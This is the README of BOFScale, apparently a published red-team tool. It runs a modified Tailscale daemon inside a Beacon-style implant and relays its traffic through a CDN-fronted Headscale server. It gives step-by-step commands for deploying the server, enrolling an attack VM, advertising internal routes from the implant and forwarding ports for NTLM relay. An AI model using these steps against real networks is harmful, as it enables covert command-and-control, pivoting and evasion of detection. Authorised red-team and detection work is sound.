

# BOFScale

A CDN-fronted tailnet from a BOF-PE. The entire Tailscale daemon runs inside the implant process with no driver, no service, no disk state, and no child processes. Traffic relays over standard RFC 6455 WebSockets, so both DERP relay servers and the control plane can sit behind CloudFront or Fastly without any special handling.

<p align="center"></p>

## Components

| Component | Description |
|---|---|
| [`tailscale/`](tailscale/) | Build system and BOF-PE modules |
| [`tailscale/tailscaled`](tailscale/tailscaled/) | Modified Tailscale daemon compiled as a BOF-PE DLL via CGo. Runs as an async background job inside the implant using userspace networking, in-memory state, and no child processes. |
| [`tailscale/tailscale`](tailscale/tailscale/) | Lightweight C++23 BOF-PE client. Speaks HTTP/1.0 over the daemon's named pipe to bring the node up, check status, advertise routes, and shut down. Includes a self-contained STUN/netcheck probe. |
| [`tailscale/socksportfwd`](tailscale/socksportfwd/) | Async BOF that forwards local TCP ports through the daemon's SOCKS5 proxy to any node on the tailnet. Bridges the gap in userspace networking for inbound traffic like NTLM relay. |
| [`headscale/`](headscale/) | Docker Compose stack running Headscale with embedded DERP relay and Headplane admin UI, configured to sit behind a CDN. |

## Quick Start

### 1. Deploy the Headscale Stack

```
cd headscale
HEADSCALE_HOSTNAME=d1a2b3c4e5f6g7.cloudfront.net docker compose up
```

The init containers handle configuration patching, user creation, and pre-auth key generation. The implant join key is printed to the compose output.

### 2. Enroll the Attack VM

Use the modified `tailscaled` binary (not stock Tailscale) on the attack VM:

```
sudo ./tailscaled --state /var/lib/tailscale/tailscaled.state &
sudo ./tailscale up \
    --login-server https://d1a2b3c4e5f6g7.cloudfront.net \
    --auth-key tskey-auth-...
```

### 3. Per-Implant Workflow

Start the daemon as an async BOF:

```
tailscaled
```

Note the socket path from the output, then enroll:

```
tailscale --socket \\.\pipe\<uuid> up --auth-key tskey-auth-... --login-server https://d1a2b3c4e5f6g7.cloudfront.net
```

Advertise routes and verify connectivity:

```
tailscale --socket \\.\pipe\<uuid> set --advertise-routes 192.168.0.0/24
tailscale --socket \\.\pipe\<uuid> status
```

Forward a local port to the tailnet for relay scenarios:

```
socksportfwd --t attackvm.target.tun --tp 8888 --p 8888
```

## Building

See [`tailscale/README.md`](tailscale/README.md) for build instructions. CI builds both x64 and x86 automatically on push to `main`.

## Build Output

Both x64 and x86 builds install into a single `tailscale/dist/` folder at the source root. The GitHub Actions artifact `bofscale-dist` contains the merged output.

```
dist/
├── pe/
│   ├── tailscale.x64.o              # Tailscale CLI client BOF-PE
│   ├── tailscale.x86.o
│   ├── socksportfwd.x64.o           # SOCKS port forwarder BOF-PE
│   ├── socksportfwd.x86.o
│   ├── tailscaled.x64.o             # Tailscale daemon BOF-PE (Go/CGO)
│   └── tailscaled.x86.o
├── x64/
│   ├── beacon.dll                    # Beacon compatibility layer
│   ├── tailscaled.exe                # Standalone tailscaled for attack VM
│   ├── tailscale.exe                 # Standalone tailscale CLI for attack VM
│   ├── tailscaled                    # Linux tailscaled binary
│   └── wintun.dll                    # WinTun driver (bundled)
├── x86/
│   ├── beacon.dll
│   ├── tailscaled.exe
│   ├── tailscale.exe
│   ├── tailscaled
│   └── wintun.dll
└── ost/
    ├── tailscale_ost_bof.s1.py       # Outflank Stage1 integration
    ├── tailscaled_ost_bof.s1.py
    └── socksportfwd_ost_bof.s1.py
```

## Background

For a full technical walkthrough of the Tailscale patches, daemon internals, IOC reduction, and operational examples, see the accompanying blog post: [BOFScale: A CDN-Fronted Tailnet from a BOF-PE](https://www.netspi.com/blog/technical-blog/red-teaming/bofscale-a-cdn-fronted-tailnet-from-a-bof-pe/).
